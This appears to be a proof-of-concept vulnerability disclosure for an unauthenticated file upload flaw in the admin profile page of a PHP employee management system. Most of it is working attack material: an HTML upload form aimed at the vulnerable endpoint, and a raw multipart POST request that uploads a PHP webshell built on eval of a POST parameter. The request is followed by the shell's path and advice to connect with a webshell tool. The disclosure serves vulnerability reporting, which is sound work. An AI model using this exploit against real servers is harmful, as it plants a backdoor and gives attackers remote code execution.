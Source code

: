 

The Best Employee Management System has a foreground file upload vulnerability that could be exploited by an attacker to upload malicious files without authentication, thereby compromising or exploiting the server.



Source code address：https://www.sourcecodester.com/php/17689/best-employee-management-system-php.html





Loopholes in the admin/profile. PHP file, the 'update' code to check if there is a POST request parameters, and after the upload path for/assets/uploadImage/profile /, only need to understand the key down, allowed to upload any file type.

![image-20250314185508607](images/image-20250314185508607.png)



Vulnerability verification：

Mode one：

Construct the upload.html page upload

```
<!DOCTYPE html>
<html>
<head>
    <title>File Upload Test</title>
</head>
<body>
    <form action="http://192.168.80.152/employee/admin/profile.php" method="POST" enctype="multipart/form-data">
        <!-- Hidden old image field -->
        <input type="hidden" name="old_website_image" value="">
        
        <!-- File upload field -->
        <input type="file" name="website_image"><br>
        

        
        <!-- Submit button -->
        <input type="submit" name="update" value="Upload">
    </form>
</body>
</html>
```

![image-20250314185638628](images/image-20250314185638628.png)



Mode two：

Send the data packet directly to upload, the status code is 302, but the server still successfully uploaded the file

```
POST /employee/admin/profile.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------31978535720481
Content-Length: 466

-----------------------------31978535720481
Content-Disposition: form-data; name="old_website_image"

20241208110124.png
-----------------------------31978535720481
Content-Disposition: form-data; name="website_image"; filename="12.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass"]);

-----------------------------31978535720481
Content-Disposition: form-data; name="update"

Upload
-----------------------------31978535720481--

```

![image-20250314190536740](images/image-20250314190536740.png)



Use any webshell administration tool to connect

The path is：http://192.168.80.152/employee/assets/uploadImage/profile/12.php

![image-20250314185852467](images/image-20250314185852467.png)













